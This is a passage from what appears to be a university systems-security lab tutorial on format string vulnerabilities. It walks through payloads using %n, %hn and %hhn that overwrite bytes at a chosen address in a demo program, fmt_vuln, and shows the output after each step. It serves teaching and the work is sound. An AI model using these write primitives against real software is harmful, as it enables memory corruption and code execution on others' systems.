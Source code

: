 Writing a Single Byte
---------------------

Now, to write a byte, let's plug into the leading B's the address of the
target~value~, which we see is 0x804a02c. We can use the command line
printf to do that output:

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2c\xa0\x04\x08").%#08x.%#08x.%#08x.%n
Right: ,.%#08x.%#08x.%#08x.%n

Wrong: ,.0xbffff2b0.0x000400.0x000004.

[*] test_val @ 0x804a02c = 34 0x00000022
```

Great! That worked. But, we overwrote the whole target value including
the A's. That's because we are writing a whole integer. What we really
want to do is get it to write a single value, maybe just that null byte.

For that, we use the format directive flag `h`, which specifies using
the half the format. So, for example, if we used `%hn` then we are
writing the number of formatted bytes to a 2-byte short value. And if we
use `%hhn`, then we are writing the number of formatted bytes to a
1-byte char value. For example:

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2c\xa0\x04\x08").%#08x.%#08x.%#08x.%hn
Right: ,.%#08x.%#08x.%#08x.%hn

Wrong: ,.0xbffff2b0.0x000400.0x000004.

[*] test_val @ 0x804a02c = 4259874 0x00410022
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2c\xa0\x04\x08").%#08x.%#08x.%#08x.%hhn
Right: ,.%#08x.%#08x.%#08x.%hhn

Wrong: ,.0xbffff2b0.0x000400.0x000004.

[*] test_val @ 0x804a02c = 4276514 0x00414122
```

Now that, we've got that one byte written, we have to align it. We are 3
bytes off, but that is an easy fix by changing the address of where we
are writing to.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#08x.%hhn
Right: /.%#08x.%#08x.%#08x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x000004.

[*] test_val @ 0x804a02c = 574701889 0x22414141
```

Controlling what you write
--------------------------
